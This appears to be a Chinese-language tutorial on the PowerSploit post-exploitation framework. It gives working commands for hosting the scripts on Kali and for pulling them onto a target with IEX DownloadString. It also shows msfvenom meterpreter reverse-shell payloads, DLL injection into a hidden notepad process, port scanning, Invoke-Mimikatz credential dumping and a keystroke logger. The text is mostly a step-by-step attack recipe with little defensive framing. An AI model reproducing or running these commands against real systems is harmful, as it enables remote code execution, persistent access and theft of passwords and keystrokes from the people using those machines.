 ## PowerSploit

PowerSploit是一款基于PowerShell的后渗透框架软件，包含很多PowerShell攻击脚本，

主要用于渗透中的信息侦察，权限提升，权限维持。

Github地址：`https://github.com/PowerShellMafia/PowerSploit1`

PowerSploit在kali下的搭建：

1 .下载PowerSploit到本地:

`git clone https://github.com/PowerShellMafia/PowerSploit`   //下载PowerSploit到本地。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5ppzi4tjwj30ng03i40h.jpg)

2. 开启kali的Apache服务。

   在kali终端输入:service apache2 start   //开启apache 服务。

   

   ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5pq5d3yw9j30cc00omx6.jpg)

3. 把下载好的文件夹移动到var/www/html目录，

   ![1565056847616](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1565056847616.png)



4.打开kali的浏览器访问：http://ip/PowerSploit  如：http://192.168.0.110/PowerSploit/

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5pqchs22qj30ng0mmq5p.jpg)

## [Powersploit](https://www.secpulse.com/archives/tag/powersploit)模块简介

\* CodeExecution 在目标主机执行代码

\* ScriptModification 在目标主机上创建或修改脚本

\* Persistence 后门脚本（持久性控制）

\* AntivirusBypass 发现杀软查杀特征

\* Exfiltration 目标主机上的信息搜集工具

\* Mayhem 蓝屏等破坏性脚本

\* Recon 以目标主机为跳板进行内网信息侦查



## PowerSploit  模块运用

### 1.Invoke-Shellcode 

CodeExexcution模块下的lnkvoke -shellcode （外壳代码）脚本常用于将ShellCode插入到指定的进程ID或本地PowerShell中。

先在目标主机安装“Invoke-Shellcode”脚本，使用Get-Help + 脚本名可以查看使用方法：

命令格式：

IEX (New-Object Net.WebClient).DownloadString("http://IP Adress/CodeExecutio

n/Invoke--Shellcode.ps1") 





例如：

 'msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.15.62 LPORT=5555 -f powershell -o /var/www/html/ttyu8888  #kali上生成powershell'

IEX(New-Object Net.Webclient).DownloadString("http://172.16.15.62/PowerSploit/CodeExecution/Invoke-Shellcode.ps1")   #下载攻击模块

 IEX(New-Object Net.Webclient).DownloadString("http://172.16.15.62/ttyu8888")   #下载powershell攻击语句到本地。

Invoke-Shellcode -Shellcode $buf -Force  #在powershell中调用invoke-shellcode 

### 执行ShellCode 反弹Meterpreter Shell 

一：在MSF里面使用reverse_https模块进行反弹，设置如下

本来在Invoke-Shellcode直接使用以下这条命令进行反弹的：

`Invoke-Shellcode -Payload windows/meterpreter/reverse_https –Lhost 192.168.146.129 -Lport 4444 -Force`

但是Powersploit更新到了3.0, Invoke-Shellcode脚本没有Lhost和Lport参数，所以我们需要用到另外一种方法实现。

使用msfvenom生成一个powershell脚本。

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.110.129 LPORT=4444 -f powershell -o /var/www/html/test`



进程注入ShellCode反弹Meterpreter Shell

### 2.lnvoke-Dllinjection  DLL注入

使用Code Execution 模块下的Invoke-DLLInjection  为DLL注入脚本。

1. 首先下载安装DLL注入脚本到目标机器

   `IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.110/PowerSploit/CodeExecution/Invoke-DllInjection.ps1")`			//下载指定路径的脚本。

   ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q16nerlvj30m901gglg.jpg)

2. 在MSF里面生成一个DLL注入脚本,然后下载DLL文件使用Invoke-DLLInjection脚本来实现DLL注入

   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.110 LPORT=4444 -f dll –o /var/www/html/shell2.dll`			//在kali下生成一个Dll注入脚本。![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q13wdiwij30s804haea.jpg)

   

3. 把生成的Dll上传到目标服务器的C盘，为什么使我们的注入更加隐蔽，我们开启一个隐藏进程来进行DLL注入。

   

   `Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden`		

   ​	//创建一个隐藏进程

   ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q15yk1mhj30k30euwf9.jpg)

   4.使用命令来进行进程注入。

   `Invoke-DllInjection -ProcessID 4080 -Dll c:\shell2.dll`  				//把dll的进程注入到notepad.exe中。

   ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q10x7ljnj30ix02xq2s.jpg)

   5.msf拿到反弹连接内容。

   ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q19ukqmqj30ks05xwho.jpg)

3.Invoke-Portscan 端口扫描

lnvoke-Portscan是Recon模块下的一个脚本，主要作用于端口扫描，使用起来也比简单。

1.先下载脚本。

下载格式为：`IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.110/PowerSploit/Recon/Invoke-Portscan.ps1")`            //下载扫描脚本

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q1jmznvhj30o30190sk.jpg)

2.设置扫描目标和端口

Invoke-Portscan -Hosts <IP Adress/Rangr> -Ports

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q1kbprnej30ma09bglt.jpg)

### 4.lnvoke-Mimikatz

### lnvoke-Mimikatz是Exfiltration模块下的一个脚本，它的功能获取管理员密码。

下载脚本：`IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.110/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1")`

![1565080994592](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1565080994592.png)

使用`Invoke-Mimikatz –DumpCreds`也可以直接运行

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q202au9sj30i00hx3z3.jpg)

### 5.Get -Keystrokes

Get-Keystrokes 键盘记录器

Get-Keystrokes -LogPath + <保存位置>

`IEX (New-Object Net.WebClient).DownloadString("http://192.168.0.110/PowerSploit/Exfiltration/Get-Keystrokes.ps1")`

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5q2eeunqkj30lb08hgm2.jpg)





